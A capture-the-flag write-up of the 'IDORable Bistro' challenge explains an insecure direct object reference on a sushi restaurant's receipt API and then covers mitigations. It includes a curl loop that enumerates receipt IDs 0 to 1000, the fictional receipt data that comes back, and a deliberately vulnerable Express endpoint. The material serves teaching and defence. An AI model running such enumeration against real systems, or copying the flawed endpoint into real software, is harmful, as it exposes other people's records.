

# IDORable Bistro
Difficulty: <span style="color:red">❄ ❄</span> ❄ ❄ ❄  
Josh has a tasty IDOR treat for you—stop by Sasabune for a bite of vulnerability. What is the name of the gnome?

## Hints
### What's For Lunch?
I had tried to scan one of the QR codes and it took me to somebody's meal receipt! I am afraid somebody could look up anyone's meal if they have the correct ID...in the correct place.
### Will the Real ID Please...
Sometimes...developers put in a lot of effort to anonymyze information by using randomly generated identifiers...but...there are also times where the "real" ID is used in a separate Network request...
### QR Codes
I have been seeing a lot of receipts lying around with some kind of QR code on them. I am pretty sure they are for Duke Dosis's Holiday Bistro. Interesting...see you if you can find one and see what they are all about...

## Solution
I started by analyzing the source code of the landing page.

Buried within the HTML, I identified a commented-out section pointing to a sample receipt for testing purposes:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Sasabune - Premier Sushi Restaurant</title>
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Noto+Sans+JP:wght@300;400;500;700&family=Noto+Serif+JP:wght@400;500&display=swap" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css2?family=Oswald:wght@700&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/static/style.css">
</head>
<body>
    <div class="container">
        <div class="header">
            <h1 class="lantern-effect">SASABUNE</h1>
            <p class="tagline">🏮 Traditional Japanese Sushi Experience in the Dosis Neighborhood Since 2015 🏮</p>
        </div>
        
        <div class="welcome-content festive-border">
            <h2>Receipt Verification System</h2>
            <p>Welcome to Sasabune, where authentic Japanese flavors meet warm hospitality. Please scan the QR code on your receipt to view your order details and ensure everything was prepared to your satisfaction.</p>
            
                <div class="scan-instructions">
                <div class="phone-icon"></div>
                <ol>
                    <li>Open your phone's camera application</li>
                    <li>Point the camera at the QR code on your receipt</li>
                    <li>Tap the notification that appears on your screen</li>
                </ol>
            </div>
            
            <p class="neighborhood-note">Proudly serving authentic Japanese cuisine to the Dosis neighborhood for over 10 years! 🏮</p>

            <!-- For testing purposes only, not shown in production -->
            <!-- <div class="testing-section">
                <details>
                    <summary>Test Links (Staff Only)</summary>
                    <ul class="demo-links">
                        <li><a href="/receipt/a1b2c3d4">Sample Receipt</a></li>
                    </ul>
                </details>
            </div> -->
        </div>
    </div>
    
    <div class="holiday-footer">
        <p>© 2025 Sasabune Restaurant | Authentic Japanese Cuisine in the Heart of Dosis</p>
        <p style="font-size: 0.9rem; opacity: 0.8; margin-top: 0.5rem;">伝統的な日本料理をお楽しみください</p>
    </div>
    
    <script>
        // Add snow pile and northern lights for extra holiday effect
        document.addEventListener('DOMContentLoaded', function() {
            const body = document.querySelector('body');
            
            // Add snow pile
            const snowPile = document.createElement('div');
            snowPile.classList.add('snow-pile');
            body.appendChild(snowPile);
            
            // Add northern lights
            const northernLights = document.createElement('div');
            northernLights.classList.add('northern-lights');
            body.appendChild(northernLights);
        });
    </script>
</body>
</html>
```

Navigating to this sample receipt, I observed how the data was actually loaded. The frontend made a fetch request to `/api/receipt?id=${id}`:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Sasabune - Your Receipt</title>
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Noto+Sans+JP:wght@300;400;500;700&family=Noto+Serif+JP:wght@400;500&display=swap" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css2?family=Oswald:wght@700&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/static/style.css">
</head>
<body>
    <div class="container">
        <div class="header">
            <h1 class="lantern-effect">SASABUNE</h1>
            <p class="tagline">Serving the Dosis Neighborhood Since 2015</p>
            <div class="nav">
                <a href="/">Home</a>
            </div>
        </div>
        
        <div class="check-container festive-border">
            <div class="holly-decoration left"></div>
            <div class="holly-decoration right"></div>
            
            <h2>Your Receipt Details</h2>
            
            <div id="check-details">
                <p>Loading receipt details...</p>
                <div class="loading-spinner">
                    <div class="spinner-candy-cane"></div>
                </div>
            </div>
        </div>
    </div>

    <div class="holiday-footer">
        <p>© 2025 Sasabune | Proud Member of the Dosis Neighborhood Community</p>
    </div>

    <script>
        // Initial receipt ID
        let receiptId = '101';
        
        // Function to fetch and display receipt details
        function fetchReceiptDetails(id) {
            // Add a small delay for dramatic effect
            setTimeout(function() {
                fetch(`/api/receipt?id=${id}`)
                    .then(response => {
                        if (!response.ok) {
                            throw new Error('Receipt not found');
                        }
                        return response.json();
                    })
                    .then(data => {
                        const receiptDiv = document.getElementById('check-details');
                        
                        let receiptHtml = `
                            <div class="receipt">
                                <div class="receipt-header">
                                    <div class="holiday-logo"></div>
                                    <h3>Sasabune</h3>
                                    <p>Serving the Dosis Neighborhood Since 2015</p>
                                    <p>Receipt #${data.id} | Table ${data.table} | ${data.date}</p>
                                    <p>Customer: ${data.customer}</p>
                                </div>
                                
                                <div class="receipt-items">
                                    <table>
                                        <thead>
                                            <tr>
                                                <th>Item</th>
                                                <th>Price</th>
                                            </tr>
                                        </thead>
                                        <tbody>
                        `;
                        
                        data.items.forEach(item => {
                            receiptHtml += `
                                <tr>
                                    <td>${item.name}</td>
                                    <td>$${item.price.toFixed(2)}</td>
                                </tr>
                            `;
                        });
                        
                        receiptHtml += `
                                        </tbody>
                                        <tfoot>
                                            <tr>
                                                <td><strong>Total</strong></td>
                                                <td><strong>$${data.total.toFixed(2)}</strong></td>
                                            </tr>
                                        </tfoot>
                                    </table>
                                </div>
                                
                                <div class="receipt-footer">
                                    <p>Status: ${data.paid ? '<span class="paid-status">Paid</span>' : '<span class="unpaid-status">Unpaid</span>'}</p>
                        `;
                        
                        // Display special request if present
                        if (data.special_request) {
                            receiptHtml += `<p class="special-request">Special Request: "${data.special_request}"</p>`;
                        }
                        
                        // Display note if present
                        if (data.note) {
                            receiptHtml += `<p class="note">Note: ${data.note}</p>`;
                        }
                        
                        // Display secret note if present
                        if (data.secret_note) {
                            receiptHtml += `
                                <div class="secret-note-container">
                                    <p class="secret-note blink">${data.secret_note}</p>
                                    <div class="confetti"></div>
                                </div>`;
                        }
                        
                        receiptHtml += `
                                </div>
                            </div>
                        `;
                        
                        receiptDiv.innerHTML = receiptHtml;
                        
                        // If we found the flag, celebrate!
                        if (data.secret_note && data.secret_note.includes("FLAG:")) {
                            celebrateFlag();
                        }
                    })
                    .catch(error => {
                        document.getElementById('check-details').innerHTML = `
                            <div class="error">
                                <div class="error-icon">❌</div>
                                Error: ${error.message}
                            </div>
                        `;
                    });
            }, 800); // Delay for dramatic effect
        }
        
        // Function to lookup a specific receipt
        function lookupReceipt() {
            const newReceiptId = document.getElementById('receipt-id').value;
            document.getElementById('check-details').innerHTML = `
                <p>Looking up receipt #${newReceiptId}...</p>
                <div class="loading-spinner">
                    <div class="spinner-candy-cane"></div>
                </div>
            `;
            fetchReceiptDetails(newReceiptId);
        }
        
        // Function to celebrate finding the flag
        function celebrateFlag() {
            // Play a celebratory sound
            const audio = new Audio('/static/sounds/success.mp3');
            audio.volume = 0.5;
            audio.play();
            
            // Add confetti effect
            const confetti = document.querySelector('.confetti');
            for (let i = 0; i < 50; i++) {
                const confettiPiece = document.createElement('div');
                confettiPiece.classList.add('confetti-piece');
                confettiPiece.style.left = Math.random() * 100 + '%';
                confettiPiece.style.animationDelay = Math.random() * 5 + 's';
                confettiPiece.style.backgroundColor = `hsl(${Math.random() * 360}, 100%, 50%)`;
                confetti.appendChild(confettiPiece);
            }
        }
        
        // Fetch initial receipt details
        document.addEventListener('DOMContentLoaded', function() {
            fetchReceiptDetails(receiptId);
        });
    </script>
</body>
</html>
```

Although the URL in the browser bar used an alphanumeric/hexdecimal code (`/receipt/a1b2c3d4`), the internal API request used a simple integer (`id=101`). This is a classic Insecure Direct Object Reference (IDOR) vulnerability. 

Knowing the URL structure and assuming the `id` parameter was a sequential integer, I wrote a loop to enumerate the IDs from `0` to `1000` to scrape all available receipts:
```bash
thedead@maccos 2025-13-IDORable-Bistro % for i in {0..1000}; do curl -sf "https://its-idorable.holidayhackchallenge.com/api/receipt?id=$i"; done
```

The server returned a list of JSON objects containing customer names, orders, and notes:
```json
{"customer":"Duke Dosis","date":"2025-12-20","id":101,"items":[{"name":"Omakase Experience","price":150.0},{"name":"Sake Flight (Premium)","price":45.0}],"note":"Claims his pet rock is a certified sushi-grade emotional support animal. Demanded a tiny chair and a water bowl for it.","paid":true,"table":1,"total":195.0}
{"customer":"Mrs. Sarah Henderson","date":"2025-12-18","id":102,"items":[{"name":"Dragon Roll","price":18.5}],"note":"Insists her cat can speak fluent Japanese, but only after three servings of premium toro. The cat remained silent, but looked exceptionally pleased.","paid":true,"table":2,"total":18.5}
{"customer":"Bobby Mitchell","date":"2025-12-19","id":103,"items":[{"name":"California Roll","price":12.0},{"name":"Ramune Soda","price":4.5},{"name":"Pocky Sticks","price":3.0}],"note":"Tried to pay for his meal with a rare trading card featuring an original creature called 'Glimmerfin'. He was very insistent it would be valuable someday.","paid":true,"table":3,"total":19.5}
{"customer":"SANS Investigator Alumni","date":"2025-12-21","id":104,"items":[{"name":"Forensic Platter (for 'data' recovery)","price":45.0},{"name":"Red Team Roll (extra spicy)","price":18.0},{"name":"Blue Team Bento","price":22.0},{"name":"Green Tea","price":4.0}],"note":"Attempted to forensically analyze the soy sauce for 'trace evidence of gluten'. We assured them it's gluten-free.","paid":true,"table":4,"total":89.0}
{"customer":"Detective Sarah Walsh","date":"2025-12-21","id":105,"items":[{"name":"Undercover Unagi","price":16.0},{"name":"Strong Black Coffee","price":4.0}],"note":"Asked for a table with a clear view of all exits. Said she was 'investigating a case of serial sauce theft'.","paid":true,"table":5,"total":20.0}
{"customer":"Professor Tinker","date":"2025-12-20","id":106,"items":[{"name":"Schr\u00f6dinger's Sashimi Box (both raw and cooked... somehow)","price":30.0}],"note":"Spent an hour trying to calculate the optimal angle to dip his sushi for maximum flavor distribution. His napkin was covered in equations.","paid":true,"table":6,"total":30.0}
{"customer":"Ed Skoudis","date":"2025-12-21","id":107,"items":[{"name":"Penetration Test Platter","price":55.0},{"name":"Fedora-Brim Bento","price":5.0},{"name":"Johnny's Jalape\u00f1o Jokes","price":7.0}],"note":"Unmistakable in his classic fedora. Kept asking 'Where's Johnny?' and demanded Johnny be seated next to him. Attempted to socially-engineer the soy sauce into giving up the Wi-Fi password.","paid":true,"table":7,"total":67.0}
{"customer":"Joshua Wright","date":"2025-12-20","id":108,"items":[{"name":"Wireless Wonton Soup","price":9.0},{"name":"De-auth Dragon Roll","price":19.0},{"name":"Packet Capture Karaage","price":14.0}],"note":"Successfully rick-rolled the restaurant's smart speakers using a Flipper Zero. We were not amused, but the other diners were.","paid":true,"table":8,"total":42.0}
{"customer":"Lynn Schifano","date":"2025-12-19","id":109,"items":[{"name":"Agile Avocado Roll","price":12.0},{"name":"Scope Creep Sake","price":10.0},{"name":"Mochi Ice Cream","price":7.0}],"note":"Provided a detailed Gantt chart for her dining experience, complete with milestones for appetizer, main course, and dessert.","paid":true,"table":9,"total":29.0}
{"customer":"JJ Jasinski","date":"2025-12-20","id":110,"items":[{"name":"Mosh Pit Maki (extra crunchy)","price":10.0},{"name":"Headbanger Tempura (one-handed eating)","price":6.0}],"note":"Joined virtually from the UK. Spent the call headbanging through a full power-chord solo, kept asking 'What did you say?' between growls that were definitely not English. Chef now offers complimentary earplugs to table 10.","paid":true,"table":10,"total":16.0}
{"customer":"Thomas Bouve","date":"2025-12-21","id":111,"items":[{"name":"Frites & Mayo Maki","price":15.0}],"note":"Asked for extra mayonnaise for his sushi. We are still processing this request.","paid":true,"table":11,"total":15.0}
{"customer":"Mark Devito","date":"2025-12-20","id":112,"items":[{"name":"The 'Mainframe' Maguro","price":25.0},{"name":"COBOL-Cured Salmon","price":18.0}],"note":"Complained that the menu wasn't written in Fortran. Said our modern POS system lacks 'the elegance of a punch card'.","paid":true,"table":12,"total":43.0}
{"customer":"Chris Davis","date":"2025-12-19","id":113,"items":[{"name":"CTF (Capture The Flavor) Roll","price":19.0},{"name":"Pwned Poke","price":17.0},{"name":"Root Beer Float","price":8.0}],"note":"Left a note on the receipt that said 'The flag is... delicious'. We think it was a compliment.","paid":true,"table":13,"total":44.0}
{"customer":"Paul Beckett","date":"2025-12-21","id":114,"items":[{"name":"Firewall Futomaki","price":16.0},{"name":"Threat Model Tempura","price":20.0}],"note":"Paul LOVES to eat \u2014 so much that when we handed him the menu he tried to order the Wi-Fi password '\u00e0 la carte', tasted the paper to check freshness, and politely asked if he could adopt a tempura as a roommate. He applauded the sushi, proposed to a nigiri, and left with a napkin cape. Staff now keep a spare chair labeled 'Paul's Next Course.'","paid":true,"table":14,"total":36.0}
{"customer":"Kyle Parrish","date":"2025-12-20","id":115,"items":[{"name":"Five-Alarm Fire Roll","price":22.0}],"note":"Asked if we could 'put out' the spicy tuna. We gave him a glass of milk.","paid":true,"table":15,"total":22.0}
{"customer":"Evan Booth","date":"2025-12-19","id":116,"items":[{"name":"Deconstructed Dragon Roll","price":18.0},{"name":"DIY Dango","price":12.0}],"note":"Built a fully functional radio transmitter out of a pair of chopsticks, a napkin, and a packet of soy sauce. We are both impressed and concerned.","paid":true,"table":16,"total":30.0}
{"customer":"Chris Elgee","date":"2025-12-21","id":117,"items":[{"name":"NetWars Nigiri","price":25.0},{"name":"Coin-a-Phrase California Roll","price":15.0},{"name":"Level 5 Lemonade","price":6.0}],"note":"Asked for the bill to be presented as a series of progressively harder challenges. He tipped well after solving the final riddle.","paid":true,"table":17,"total":46.0}
{"customer":"Kevin McFarland","date":"2025-12-20","id":118,"items":[{"name":"Stargazer's Scallops","price":24.0},{"name":"Galaxy Gyoza","price":12.0}],"note":"Daughter asked if the chef could make the sushi twinkle. He added edible glitter. She was delighted.","paid":true,"table":18,"total":36.0}
{"customer":"Tom Hessman","date":"2025-12-19","id":119,"items":[{"name":"QA Quail Eggs","price":14.0},{"name":"Bug Bounty Bento","price":22.0},{"name":"Regression Test Ramen","price":16.0}],"note":"Left an upbeat 'bug report' praising the ramen's perfectly balanced warmth, included step-by-step tasting notes, a smiley face, and a ramen haiku.","paid":true,"table":19,"total":52.0}
{"customer":"Torkel Opsahl","date":"2025-12-21","id":120,"items":[{"name":"Viking's Voyage Platter","price":40.0}],"note":"Ate his sushi with a fork and knife. When asked, he said 'Chopsticks are not optimized for my throughput'.","paid":true,"table":20,"total":40.0}
{"customer":"Eric Pursley","date":"2025-12-20","id":121,"items":[{"name":"Aviator's Ahi Tuna","price":26.0},{"name":"Runway Roll","price":18.0}],"note":"Asked for his food to be delivered 'on final approach'. The waiter made airplane noises.","paid":true,"table":21,"total":44.0}
{"customer":"Jared Folkins","date":"2025-12-19","id":122,"items":[{"name":"The 'Kidlet' Katsu Curry","price":15.0},{"name":"Dad Joke Donburi","price":18.0},{"name":"Playground Pocky","price":6.0}],"note":"Told the waiter a joke: 'Why did the sushi blush? Because it saw the ginger dressing!' The waiter is still recovering.","paid":true,"table":22,"total":39.0}
{"customer":"Patrick Chapman","date":"2025-12-21","id":123,"items":[{"name":"Hollywood Hand Roll","price":20.0},{"name":"Beverly Hills Bento","price":35.0}],"note":"Joined virtually from LA. His agent tried to negotiate a lower price for the virtual fish.","paid":true,"table":23,"total":55.0}
{"customer":"Maria Rodriguez","date":"2025-12-19","id":124,"items":[{"name":"Community Garden Roll","price":14.0},{"name":"Neighborhood Nigiri","price":20.0},{"name":"Block Party Bento","price":25.0}],"note":"Organized an impromptu potluck at her table with dishes from three other tables. It was surprisingly delicious.","paid":true,"table":24,"total":59.0}
{"customer":"David Chen","date":"2025-12-20","id":125,"items":[{"name":"The 'It's Not a Bug, It's a Feature' Futomaki","price":18.0},{"name":"Rubber Duck Dumplings","price":10.0}],"note":"Spent ten minutes explaining to his rubber duck why the wasabi was spicy. The duck was a good listener.","paid":true,"table":25,"total":28.0}
{"customer":"Jennifer Adams","date":"2025-12-18","id":126,"items":[{"name":"A+ Grade Ahi","price":22.0},{"name":"Pop Quiz Poke","price":18.0}],"note":"Tried to grade our menu. Gave the appetizers a 'B+' but said the main courses 'Exceeded Expectations'.","paid":true,"table":1,"total":40.0}
{"customer":"Michael Thompson","date":"2025-12-21","id":127,"items":[{"name":"The 'Measure Twice, Cut Once' Roll","price":19.0}],"note":"Complained about a slight wobble in his table. Fixed it himself with a folded napkin and declared it 'structurally sound'.","paid":true,"table":2,"total":19.0}
{"customer":"Lisa Park","date":"2025-12-20","id":128,"items":[{"name":"The 'Stat!' Sashimi","price":28.0},{"name":"On-Call Onigiri","price":12.0},{"name":"Triage Tempura","price":18.0}],"note":"Diagnosed a piece of tuna as 'suffering from a minor identity crisis' but 'otherwise healthy'. Ate it anyway.","paid":true,"table":3,"total":58.0}
{"customer":"Robert Williams","date":"2025-12-19","id":129,"items":[{"name":"The 'Good Old Days' Gyoza","price":12.0},{"name":"Nostalgia Nigiri","price":20.0}],"note":"Kept referring to the sushi chef as 'the new guy'. Our chef has been here for 15 years.","paid":true,"table":4,"total":32.0}
{"customer":"Amanda Foster","date":"2025-12-21","id":130,"items":[{"name":"The 'I Need a Break' Bento","price":25.0}],"note":"Fell asleep at the table for 15 minutes. Woke up, said 'Best nap ever', and finished her meal.","paid":true,"table":5,"total":25.0}
{"customer":"James Miller","date":"2025-12-20","id":131,"items":[{"name":"Grease Monkey Gyoza","price":12.0},{"name":"Motor Oil Macha (it's just strong tea)","price":6.0},{"name":"Fan Belt Futomaki","price":16.0}],"note":"Asked for a 'tune-up' on his teriyaki. The chef added extra sauce and said 'She's purring now'.","paid":true,"table":6,"total":34.0}
{"customer":"Emma Johnson","date":"2025-12-18","id":132,"items":[{"name":"All-Nighter Nigiri","price":20.0},{"name":"Cram Session California Roll","price":12.0}],"note":"Was using a textbook as a plate until we politely intervened. Claimed she was 'absorbing knowledge through osmosis'.","paid":true,"table":7,"total":32.0}
{"customer":"Carlos Mendoza","date":"2025-12-19","id":133,"items":[{"name":"Green Thumb Gomae","price":9.0}],"note":"Tried to identify the species of the microgreens on his salad. He was correct on 4 out of 5.","paid":true,"table":8,"total":9.0}
{"customer":"Rachel Green","date":"2025-12-21","id":134,"items":[{"name":"Zen Garden Salad","price":15.0},{"name":"Inner Peace Ikura","price":18.0},{"name":"Mindful Miso Soup","price":6.0}],"note":"Asked if the fish had a happy life. We assured her it was 'very fulfilled'.","paid":true,"table":9,"total":39.0}
{"customer":"Tony Russo","date":"2025-12-20","id":135,"items":[{"name":"The 'Fuggedaboutit' Futomaki","price":18.0},{"name":"Cannoli Hand Roll","price":12.0}],"note":"Kept saying 'This is good, but it's not pizza.' We are aware, Tony. We are aware.","paid":true,"table":10,"total":30.0}
{"customer":"Helen Cooper","date":"2025-12-18","id":136,"items":[{"name":"Grandma's Secret Recipe Roll","price":16.0}],"note":"Pinched the waiter's cheek and told him he was 'too skinny'. Left a $20 tip and a bag of hard candies.","paid":true,"table":11,"total":16.0}
{"customer":"Steve Bailey","date":"2025-12-19","id":137,"items":[{"name":"Five-Alarm Firecracker Roll","price":20.0},{"name":"Smoked Salmon (No, really, it's just smoked)","price":18.0}],"note":"Asked for the spiciest thing on the menu, then immediately regretted it. Drank three glasses of water and started sweating profusely.","paid":true,"table":12,"total":38.0}
{"customer":"Nancy Davis","date":"2025-12-21","id":138,"items":[{"name":"The 'Shhh!' Sashimi Platter","price":30.0},{"name":"Quiet Room Quail Eggs","price":14.0},{"name":"Dewey Decimal Donburi","price":18.0}],"note":"Shushed a neighboring table for 'excessive crunching'. The crunching was from their tempura.","paid":true,"table":13,"total":62.0}
{"customer":"Bartholomew Quibblefrost","date":"2025-12-20","id":139,"items":[{"name":"Frozen Roll (waitress improvised: sorbet, a hint of dry ice)","price":19.0}],"note":"Insisted on increasingly bizarre rolls and demanded one be served frozen. The waitress invented a 'Frozen Roll' on the spot with sorbet and a puff of theatrical smoke. He nodded solemnly and asked if we could make these in bulk.","paid":true,"table":14,"total":19.0}
{"customer":"Grace Lee","date":"2025-12-18","id":140,"items":[{"name":"The 'Who's a Good Boy?' Bento","price":22.0},{"name":"Paw-sitively Perfect Poke","price":18.0}],"note":"Brought her chihuahua, which was wearing a tiny kimono. The dog got more attention than any human customer.","paid":true,"table":15,"total":40.0}
{"customer":"Barry Stone","date":"2025-12-19","id":141,"items":[{"name":"High-Deductible Donburi","price":18.0},{"name":"Actuarial Ahi","price":25.0},{"name":"Premium Plus Poke","price":20.0}],"note":"Calculated the statistical probability of him enjoying his meal. The result was 97.3%. He seemed pleased with the data.","paid":true,"table":16,"total":63.0}
{"customer":"Dorothy Kim","date":"2025-12-21","id":142,"items":[{"name":"The Itemized Ikura","price":18.0},{"name":"Tax Bracket Bento","price":28.0}],"note":"Asked if she could write off the meal as a 'client entertainment expense'. Her client was her husband.","paid":true,"table":17,"total":46.0}
{"customer":"George Turner","date":"2025-12-20","id":143,"items":[{"name":"The Clogged Pipe Chirashi","price":22.0}],"note":"Commented that our water pressure was 'excellent, just excellent'. Best compliment we've received all week.","paid":true,"table":18,"total":22.0}
{"customer":"Margaret Walsh","date":"2025-12-18","id":144,"items":[{"name":"Open House Hand Roll","price":15.0},{"name":"Curb Appeal California Roll","price":14.0},{"name":"Closing Costs Chirashi","price":25.0}],"note":"Described her sushi as having 'good bones' and 'great flow'. She then tried to sell it to the table next to her.","paid":true,"table":19,"total":54.0}
{"customer":"Vincent O'Brien","date":"2025-12-19","id":145,"items":[{"name":"High-Voltage Volcano Roll","price":22.0},{"name":"Short Circuit Sashimi","price":28.0}],"note":"Warned us that our decorative lanterns were a 'potential fire hazard'. They are LEDs. He seemed disappointed.","paid":true,"table":20,"total":50.0}
{"customer":"Patricia Nelson","date":"2025-12-21","id":146,"items":[{"name":"The Golden Handshake Hand Roll","price":25.0}],"note":"Asked if we accept stock options as payment. We do not.","paid":true,"table":21,"total":25.0}
{"customer":"Kevin Murphy","date":"2025-12-20","id":147,"items":[{"name":"The Hail Mary Maki","price":18.0},{"name":"Half-Time Hand Roll","price":15.0},{"name":"Victory Formation Veggie Roll","price":14.0}],"note":"Gave the chef a pep talk before the meal. The chef seemed inspired and added extra crab to his roll.","paid":true,"table":22,"total":47.0}
{"customer":"Diane Richards","date":"2025-12-18","id":148,"items":[{"name":"The Perennial Poke","price":19.0},{"name":"Baby's Breath Bento","price":22.0}],"note":"Arranged her ginger and wasabi into a beautiful, yet inedible, floral display.","paid":true,"table":23,"total":41.0}
{"customer":"Thomas Anderson","date":"2025-12-19","id":149,"items":[{"name":"The Matrix Maki","price":22.0},{"name":"The One Onigiri","price":10.0}],"note":"Asked if he was living in a simulation. The waiter said 'I'm not supposed to tell you'. He seemed to understand.","paid":true,"table":24,"total":32.0}
{"customer":"Susan Clark","date":"2025-12-21","id":150,"items":[{"name":"The Bake Sale Bento","price":20.0},{"name":"The 'I'm not a regular mom, I'm a cool mom' Roll","price":18.0},{"name":"Carpool Karaage","price":15.0}],"note":"Tried to recruit the chef for the PTA bake sale. He politely declined, citing 'prior commitments to raw fish'.","paid":true,"table":25,"total":53.0}
{"customer":"Christopher Swimmer","date":"2025-12-21","id":151,"items":[{"name":"Fried Rice","price":20.0}],"note":"Christopher doesn't like sushi but loves fried rice. He kept talking about improbable ways he could play baseball while jumping off the high dive.","paid":true,"table":26,"total":20.0}
{"customer":"Karolee Pizzazz","date":"2025-12-21","id":152,"items":[{"name":"California Roll","price":15.0},{"name":"Philadelphia Roll","price":10.0}],"note":"Karolee loves cheer and kept talking enthusiastically about the cool stunts she was doing.","paid":true,"table":26,"total":25.0}
```

I searched through the results for the keyword "frozen" (As Josh pointed out that _A gnome came through Sasabune today, poorly disguising itself as human - apparently asking for **frozen sushi**, which is almost as terrible as that fusion disaster I had to endure that one time_):
```json
{"customer":"Bartholomew Quibblefrost","date":"2025-12-20","id":139,"items":[{"name":"Frozen Roll (waitress improvised: sorbet, a hint of dry ice)","price":19.0}],"note":"Insisted on increasingly bizarre rolls and demanded one be served frozen. The waitress invented a 'Frozen Roll' on the spot with sorbet and a puff of theatrical smoke. He nodded solemnly and asked if we could make these in bulk.","paid":true,"table":14,"total":19.0}
```

The customer associated with this unique order was `Bartholomew Quibblefrost`, which is the answer to the challenge.

## Dissecting the attack

<table>
     <thead>
         <tr>
             <th style="text-align:center">Phase</th>
             <th style="text-align:center">Vulnerability (CWE)</th>
             <th style="text-align:center">Mitigation</th>
         </tr>
     </thead>
     <tbody>
         <tr>
             <td rowspan="1"><strong>1. Access</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-639</strong><br/>Authorization Bypass Through User-Controlled Key<br/><em>(IDOR on Receipt ID)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Access Control</strong><br/><em>(Verify Ownership / Use UUIDs)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>2. Disclosure</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-200</strong><br/>Exposure of Sensitive Information to an Unauthorized Actor<br/><em>(Leaking Customer Names/Orders)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Authorization</strong><br/><em>(Enforce Object Level Permissions)</em> </td>
         </tr>
     </tbody>
 </table>

### Fixing the IDOR (CWE-639)
**Vulnerability:** The application retrieves receipt records based solely on the user-supplied `id` parameter (e.g., `/receipt?id=100`) without verifying if the current user is authorized to view that specific record. Because the IDs are sequential integers, an attacker can easily enumerate all records.  
**Fix:** Implement Object Level Access Control. Ensure that the logged-in user owns the resource they are requesting. Alternatively, use Indirect Object References (like UUIDs) to make guessing IDs infeasible, though access control checks are still the primary defense.  
**Vulnerable Code (Concept):**
```js
// FLAW: Blindly returns record based on input ID
app.get('/receipt', (req, res) => {
    const receipt = db.getReceipt(req.query.id);
    res.json(receipt);
});
```
**Secure Code:**
```js
// FIX: Verify ownership before returning data
app.get('/receipt', (req, res) => {
    const receipt = db.getReceipt(req.query.id);
    
    // Check if the receipt belongs to the current session user
    if (receipt.userId !== req.session.userId) {
        return res.status(403).send("Unauthorized");
    }
    
    res.json(receipt);
});
```
**Impact:** Even if an attacker guesses a valid ID (or iterates through them), the server rejects the request because the receipt does not belong to the attacker's account.

### Fixing the Data Exposure (CWE-200)
**Vulnerability:** By iterating through the sequential IDs, the attacker was able to dump the entire database of customer orders, including names (Bartholomew Quibblefrost), table numbers, and specific dietary notes.  
**Fix:** Implement Rate Limiting and Anomaly Detection. While fixing the root IDOR is critical, detecting rapid sequential requests from a single IP address can block the enumeration attack in progress.  
**Secure Configuration (Rate Limiting Middleware):**
```js
import rateLimit from 'express-rate-limit';

const limiter = rateLimit({
    windowMs: 15 * 60 * 1000, // 15 minutes
    max: 100, // Limit each IP to 100 requests per windowMs
    message: "Too many requests, please try again later."
});

// Apply to receipt endpoint
app.use('/receipt', limiter);
```
**Impact:** Prevents automated scripts from dumping the entire database quickly, forcing a much slower and noisier attack path.
